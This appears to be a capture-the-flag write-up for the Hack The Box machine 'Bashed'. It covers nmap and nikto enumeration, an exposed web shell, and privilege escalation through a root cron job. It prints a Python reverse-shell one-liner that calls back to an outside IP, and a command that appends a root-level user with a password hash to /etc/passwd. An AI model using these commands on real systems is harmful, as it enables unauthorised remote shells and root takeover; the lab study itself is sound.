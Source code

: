 ```yaml
---
title: Writeup - HTB Bashed
date: 2023-11-11
author: kei5uke
description: Writeup for HTB Bashed
tags:
  - linux
  - writeup
---
```



# bashed

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/bashed]
└─# nmap -sV -sC -T4 -p- 10.129.65.207 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 22:20 EET
Nmap scan report for 10.129.65.207
Host is up (0.038s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.04 seconds
```

## Nikto

```bash
┌──(root💀kali)-[~/bashed]
└─# nikto -host 10.129.65.207                      
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.65.207
+ Target Hostname:    10.129.65.207
+ Target Port:        80
+ Start Time:         2023-11-10 22:30:38 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ OSVDB-3268: /php/: Directory indexing found.
+ OSVDB-3092: /php/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
```

## Interesting page

Found web shell page dev directory.

![Screenshot 2023-11-10 at 22.36.50.png](bashed%20efd9ba4e5e124df38fb09460192c2804/Screenshot_2023-11-10_at_22.36.50.png)

# Privilege Escalation

```bash
www-data@bashed:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

I run the PSPY and found hidden cron task.

Seems like root runs python script in script folder.

```bash
2023/11/10 13:54:01 CMD: UID=0     PID=43970  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

I made reverse shell in python but the connection is cut off every immediately.

```bash
www-data@bashed:/scripts$ echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.14",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > shell.py
<),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > shell.py
```

I added a script that writes new root user in /etc/passwd

```bash
www-data@bashed:/scripts$ echo 'open("/etc/passwd","a").write("keisuke:$1$jlX/nz9g$CddSuG5PoTI/9bLGZzDum1:0:0:root:/root:/bin/bash\n")' > root.py
```

# Root shell

![Screenshot 2023-11-11 at 00.11.29.png](bashed%20efd9ba4e5e124df38fb09460192c2804/Screenshot_2023-11-11_at_00.11.29.png)

# Note

I used PSPY for the first time.